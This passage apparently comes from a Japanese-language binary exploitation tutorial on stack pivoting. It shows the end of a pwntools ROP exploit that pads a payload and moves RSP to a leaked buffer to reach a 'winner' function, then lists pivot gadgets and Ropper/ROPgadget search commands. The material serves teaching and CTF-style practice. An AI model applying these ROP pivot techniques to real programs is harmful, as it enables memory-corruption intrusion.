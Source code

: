 ```python
0x0,               # r15
elf.sym['winner']
)

payload = payload.ljust(104, b'A')     # pad to 104

# Start popping RSP, this moves the stack to the leaked address and
# continues the ROP chain in the prepared payload
payload += flat(
POP_CHAIN,
buffer             # rsp
)

pause()
p.sendline(payload)
print(p.recvline())
```
### xchg <reg>, rsp gadget
```
pop <reg>                <=== return pointer
<reg value>
xchg <reg>, rsp
```
### jmp esp

ret2esp テクニックはここを確認してください：


{{#ref}}
../rop-return-oriented-programing/ret2esp-ret2reg.md
{{#endref}}

### Finding pivot gadgets quickly

お好みの gadget finder を使って、classic pivot primitives を検索してください:

- `leave ; ret` on functions or in libraries
- `pop rsp` / `xchg rax, rsp ; ret`
- `add rsp, <imm> ; ret` (or `add esp, <imm> ; ret` on x86)

例:
```bash
# Ropper
ropper --file ./vuln --search "leave; ret"
ropper --file ./vuln --search "pop rsp"
ropper --file ./vuln --search "xchg rax, rsp ; ret"

# ROPgadget
ROPgadget --binary ./vuln --only "leave|xchg|pop rsp|add rsp"
```
### Classic pivot staging pattern
